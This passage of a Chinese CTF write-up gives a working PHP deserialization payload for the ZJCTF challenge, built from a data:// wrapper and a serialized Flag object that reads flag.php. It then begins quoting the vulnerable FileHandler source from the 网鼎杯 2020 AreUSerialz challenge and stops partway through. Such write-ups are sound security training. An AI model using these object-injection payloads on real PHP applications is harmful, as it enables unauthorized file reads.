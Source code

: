 这里做不做url编码都可以，没影响，因为类变量既没有private也没有protected

payload:

?text=data://text/plain,welcome to the zjctf
&file=useless.php
&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}%

记得把useless.php给include进来因为Flag类是在这里定义的。

再去看源码，flag已然藏身其中。

## [网鼎杯 2020 青龙组]AreUSerialz

![alt text](ascii.png)

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
```